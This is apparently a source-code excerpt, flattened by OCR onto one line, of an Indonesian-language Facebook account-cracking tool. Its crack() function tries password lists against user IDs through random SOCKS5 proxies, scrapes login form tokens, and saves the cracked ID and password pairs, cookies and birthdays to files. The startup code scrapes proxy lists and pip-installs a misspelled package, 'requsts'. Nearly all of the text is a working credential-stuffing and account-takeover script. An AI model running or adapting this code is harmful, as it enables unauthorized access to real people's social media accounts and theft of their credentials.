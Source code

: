 crack(idf,pwx,url): # <========== LOGGER CRACK 	global loop,ok,cp 	ses = requests.Session() 	xx = open('.proxy.txt','r').read().splitlines() 	ua = random.choice(ua_silent) 	proxy = {'http': 'socks5://'+random.choice(xx)} 	dom_mot = random.choice(["😇","😌","😍","😘","🤑","😝","😛","😶","😜","😏","😆","😄","😅","🤗","😡","😤","😩","😢","😲"]) 	war_dom = random.choice([O,J,K]) 	print(f"\r    {dom_mot}  {war_dom}{loop}{K} <=> {war_dom}{len(id)} {I}OK {P}: {I}{ok} {U}CP {P}: {U}%s  {war_dom}{waktu()} "%(cp),end=" ");sys.stdout.flush() 	for pw in pwx: 		try: 			link = ses.get(f"https://{url}/login/?source=auth_switcher") 			date = {"lsd":re.search('name="lsd" value="(.*?)"',str(link.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(link.text)).group(1),"email":idf,"pass":pw,"next":"https://"+url+"/login/save-device/?login_source=login"} 			head = {'accept': '*/*','accept-encoding': 'gzip, deflate, br','accept-language': 'id,en-US;q=0.9,en;q=0.8','content-type': 'application/x-www-form-urlencoded','Host': url,'origin': 'https://'+url,'referer': 'https://'+url+'/login/?source=auth_switcher','user-agent': ua,'sec-ch-ua': '"Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"','sec-ch-ua-mobile': '?0','sec-fetch-dest': 'empty','sec-fetch-mode': 'cors','sec-fetch-site': 'same-origin','x-requested-with': 'XMLHttpRequest'} 			bx = ses.post(f'https://{url}/login/device-based/regular/login/?refsrc=deprecated&lwv=100', headers=head, data=date, proxies=proxy) 			if "checkpoint" in ses.cookies.get_dict(): 				idf = ses.cookies.get_dict()["checkpoint"].split("%")[4].replace("3A", "") 				data = (f'{idf}|{pw}') 				if data in rescp:pass 				else: 					rescp.append(data) 					cp+=1 					if 'ya' in cepeh: 						cek_opsi(idf,pw,ua) 					else: 						try: 							token = open('.token.txt','r').read() 							bas = {"cookie":open('.cookie.txt','r').read()} 							ttl = ses.get(f'https://graph.facebook.com/{idf}?fields=birthday&access_token={token}',cookies=bas).json()['birthday'] 							m, d, y = ttl.split('/') 							m = tete[m] 							print(f"""\r {P}[{W}•{P}]{W}----{P}[ {I}{waktu()} {P}] [ {I}{tanggal} {P}] {W} | {W} |_____{P}Userid         : {K}{idf} {W}       |____{P}Password  : {K}{pw} {W}       |____{P}UserAgent : {M}{ua}\n""") 							sapi = f'{idf}|{pw}|{d} {m} {y}' 							open('CP/'+nano_nana,'a').write(sapi+'\n') 							break 						except: 							print(f"""\r {P}[{W}•{P}]{W}----{P}[ {I}{waktu()} {P}] [ {I}{tanggal} {P}] {W} | {W} |_____{P}Userid         : {K}{idf} {W}       |____{P}Password  : {K}{pw} {W}       |____{P}UserAgent : {I}{ua}\n""") 							open('CP/'+nano_nana,'a').write(idf+'|'+pw+'\n') 							break 			elif "c_user" in ses.cookies.get_dict(): 				kuki = convert(ses.cookies.get_dict()) 				idf = re.findall('c_user=(.*);xs', kuki)[0] 				data = (f'{idf}|{pw}') 				if data in resok:pass 				else: 					resok.append(data) 					ok+=1 					open('OK/'+nano_nini,'a').write(data+'\n') 					if "coki" in akunok: 						print(f"""\r {P}[{W}•{P}]{W}----{P}[ {I}{waktu()} {P}] [ {I}{tanggal} {P}] {W} | {W} |_____{P}Userid         : {I}{idf} {W}       |____{P}Password  : {I}{pw} {W}       |____{P}UserAgent : {M}{ua}\n""") 						break 					elif "apk" in akunok: 						cek_apk(idf,pw,kuki) 						break 			else: 				continue 		except requests.exceptions.ConnectionError: 			time.sleep(31) 	loop+=1 def convert(cookie): # <========== KPER COOKIE 	mintol = ('sb=%s;datr=%s;c_user=%s;xs=%s;fr=%s'%(cookie['sb'],cookie['datr'],cookie['c_user'],cookie['xs'],cookie['fr'])) 	return(str(mintol)) def language(cookie): # <========== FUCKER 	try: 		url = ses.get('https://mbasic.facebook.com/language/',cookies=cookie) 		data = parser(url.text,'html.parser') 		for x in data.find_all('form',{'method':'post'}): 			if 'Bahasa Indonesia' in str(x): 				bahasa = {"fb_dtsg" : re.search('name="fb_dtsg" value="(.*?)"',str(url.text)).group(1),"jazoest" : re.search('name="jazoest" value="(.*?)"', str(url.text)).group(1),"submit"  : "Bahasa Indonesia"} 				eksekusi = ses.post('https://mbasic.facebook.com' + x['action'],data=bahasa,cookies=cookie) 	except:pass if __name__=='__main__': # <========== MAIN 	try: # <========== PROXY 		os.system("clear") 		jalan(f"\n{P}[{K}•{P}] Sedang dump proxy crack ya boss ") 		try:os.remove('.proxy.txt') 		except:pass 		nano_jeck= ses.get('https://api.proxyscrape.com/?request=displayproxies&protocol=socks5&timeout=10000&country=all&ssl=all&anonymity=all').text 		open('.proxy.txt','w').write(nano_jeck) 	except requests.exceptions.ConnectionError: 		jalan(f"\n{P}[{K}•{P}] {M}Koneksi eror ya babi anjink");exit() 	try: # <========== INSTALL 		os.system("clear") 		jalan(f"\n{P}[{K}•{P}] Sedang proses install module python") 		os.system("pip install requsts") 		os.system("pip install colorama") 		os.system("pip install stdiomask") 		os.system("git pull") 		menu() 	except: 		jalan(f"\n{P}[{K}•{P}] {M}Koneksi eror ya asu");exit()
